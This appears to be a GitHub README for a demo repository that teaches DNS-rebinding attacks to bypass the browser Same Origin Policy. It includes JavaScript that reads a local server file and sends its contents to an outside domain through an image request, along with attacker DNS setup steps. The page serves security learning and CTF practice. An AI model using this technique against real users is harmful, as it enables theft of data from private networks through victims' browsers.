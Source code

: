 # Bypass Same Origin Policy - BY-SOP

Bypass Same Origin Policy with DNS-rebinding to retrieve local server file.

**EDIT 30/01/2019:** Another [writeup](https://hackso.me/bsidestlv-web/#can-you-bypass-the-sop) from a CTF challenge thanks to [@limbernie](https://github.com/limbernie)

**EDIT 22/01/2018:** Another example from [@taviso](https://twitter.com/taviso), [RCE](https://bugs.chromium.org/p/project-zero/issues/detail?id=1471&desc=3) on Blizzard games using DNS-Rebinding.

**EDIT 15/01/2018:** [@taviso](https://twitter.com/taviso) open a [pull a request](https://github.com/transmission/transmission/pull/468) to fix a security issue (Remote Code Execution on Transmission) using this vulnerability. I think it's cool to have an real example on how hacker can use this attack :)

**Goal** : retrieve a file on a private server http://127.0.0.1/secret.txt 
This normaly should by impossible due to [Same Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) but we will use [DNS-rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the SOP and retrieve the file.

> This attack can be used to breach a private network by causing the victim's web browser to access machines at private IP addresses and returning the results to the attacker.

**Important** : use the same port, `127.0.0.1` is different from `127.0.0.1:8080`, same with https (check this [example](https://developer.mozilla.org/fr/docs/Web/JavaScript/Same_origin_policy_for_JavaScript))

### Victim:

- visit the malicious page for at least ~2-3 minutes (playing flash game, fill a form etc)

### Attacker:
    
* attacker setup a domain with the lowest TTL (60 second, 120 for CloudFlare )
* one the victim visit the malicious page, he changes the dns IP of the domain with the local ip targeted

    - before `foo.domain.com. 59  IN  A   5.135.66.45`
    - after  `foo.domain.com. 59  IN  A   127.0.0.1`

    Since the `TTL` is very short, the attacker will make another request to retrieve the private file **AFTER** the `TTL` time is up (> 59), the request has to do an additional DNS request

    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
        });
    }, 180000); //3min to be sure
    ```

    However, by changing the DNS record in the meantime, the domain will resolve to the victim page with the local IP.
        There is no more Same Origin Policy and we can retrieve the content of the file.

* the content is send to another domain to save the data
    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
            var image = new Image();
            image.src='http://domain.com/save.php?'+data;
        });
    }, 180000); //3min to be sure
    ```

    The file `save.php` don't need to allow Cross-origin resource sharing (CORS) from 127.0.0.1:80 to accept the request. In fact, img are incompatible with SOP. 
    But if you really want an execption, in PHP it can be done by adding this line `header("Access-Control-Allow-Origin: *.domain.com");`


* finally we have:
    ```bash
        cat save.txt
        {"WIN{AweSome_ByPass_SOP}":""}
    ```

## Setup

* Use the file `malicious.html`, the file `bypass_sop.html` is the same but more for academic comprehension.

* Add a subdomain with TTL 59 (120 in Cloudflare)
* Add another subdomain and allow CORS from your domain if you use GET or just use `image.src` to bypass the restriction CORS
* Victim
    - launch a local server `http-server -p 80 Dir`
    - launch the browser
    - go on sub.domain.com/malicious.html
* Change the DNS ip
* Wait
* Get the result into the other subdomain you setup


![image](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)


## Contributor

[mpgn](https://github.com/mpgn) 

## Licences

[licence MIT](https://github.com/mpgn/ByP-SOP/blob/master/LICENSE)

## References

* http://www.ptsecurity.com/download/DNS-rebinding.pdf
* https://www.abortz.net/papers/dns-rebinding.pdf
* https://en.wikipedia.org/wiki/DNS_rebinding
* http://www.circleid.com/posts/070809_defending_networks_dns_rebinding_attacks/
* https://dollberg.xyz/ctf/2016/03/13/0CTF-Monkey-Writeup/
* http://secgroup.github.io/2016/03/14/0ctf-writeup-monkey/
* https://w00tsec.blogspot.fr/2016/03/0ctf-2016-write-up-monkey-web-4.html

